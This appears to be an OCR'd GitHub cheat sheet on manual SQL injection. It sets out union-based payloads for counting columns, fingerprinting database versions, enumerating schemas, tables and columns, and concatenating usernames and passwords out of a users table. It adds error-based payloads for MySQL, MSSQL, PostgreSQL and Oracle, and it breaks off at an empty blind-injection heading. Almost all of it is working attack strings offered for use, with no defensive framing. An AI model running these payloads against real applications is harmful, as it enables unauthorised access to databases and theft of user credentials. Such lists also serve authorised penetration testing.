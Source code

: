 
## SQL Injection

### Advanced Manual Exploitation

#### Union-Based SQL Injection

```sql
-- Determine number of columns (Order By)
' ORDER BY 1-- -
' ORDER BY 2-- -
' ORDER BY 3-- - (Continue until error)

-- Determine number of columns (Union Select)
' UNION SELECT NULL-- -
' UNION SELECT NULL,NULL-- -
' UNION SELECT NULL,NULL,NULL-- -

-- Find database version
' UNION SELECT @@version,NULL,NULL-- -              # MySQL/MSSQL
' UNION SELECT version(),NULL,NULL-- -              # PostgreSQL
' UNION SELECT banner,NULL,NULL FROM v$version-- -  # Oracle

-- Database enumeration
' UNION SELECT schema_name,NULL,NULL FROM information_schema.schemata-- -
' UNION SELECT table_name,NULL,NULL FROM information_schema.tables WHERE table_schema='database'-- -
' UNION SELECT column_name,NULL,NULL FROM information_schema.columns WHERE table_name='users'-- -

-- Data extraction with concatenation
' UNION SELECT CONCAT(username,':',password),NULL,NULL FROM users-- -
' UNION SELECT CONCAT_WS(':', username, password, email) FROM users-- -
```

#### Error-Based SQL Injection

```sql
-- MySQL error-based
' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT database()),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)-- -

-- MSSQL error-based
' AND 1=CONVERT(INT,(SELECT @@version))-- -

-- PostgreSQL error-based
' AND 1=CAST((SELECT version()) AS INT)-- -

-- Oracle error-based
' AND 1=UTL_INADDR.GET_HOST_ADDRESS((SELECT banner FROM v$version))-- -
```

#### Blind SQL Injection
